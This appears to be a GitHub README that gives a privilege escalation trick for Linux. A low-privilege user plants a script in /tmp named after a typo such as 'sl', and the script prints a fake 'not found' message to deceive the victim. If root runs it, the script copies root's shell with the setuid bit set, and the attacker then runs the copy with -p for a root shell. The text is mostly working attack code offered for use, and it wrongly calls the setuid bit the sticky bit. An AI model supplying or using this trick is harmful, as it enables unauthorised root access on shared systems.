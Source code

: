 Lets suppose you have ssh access on a server as a testuser .
You can cd on tmp directory and create the following simple script .
The whole idea is to accidentaly make a root user execute our script . This will be possible if we name our executable as a possible wrong command like sl (not ls) .
Then we will copy root user's shell to onother executable where we will have access . Executing the new executable  will give us root privilleges.
(assuming the command spelling error happens from a root user , we'll need to wait a bit :P )

```
#cd on /tmp as any user without privilleges and create the following script.
#Its important to name your script , as a frequent wrong possible command like sl(not ls) , mroe(not more) etc..
vim sl

#!/bin/bash 
echo "bash: sl not found "
cp $SHELL /tmp/myfile
chmod u+s /tmp/myfile

```
1. echo "bash: sl not found " ---> informs the user that accidentally executed our script that his command was spelled wrong , in order to not be suspicious.
2. cp $SHELL /tmp/myfile ---> copies the user that executed our script bash shell to /tmp/myfile
3. chmod u+s /tmp/myfile -----> enables sticky bit , so if it is a root user we will then execute the new script , as root.

When the /tmp/myfile is finally created it is important to execute it with the -p option to keep the privilleges of the root.

```
cd /tmp
./myfile -p

```

Enjoy your root shell.
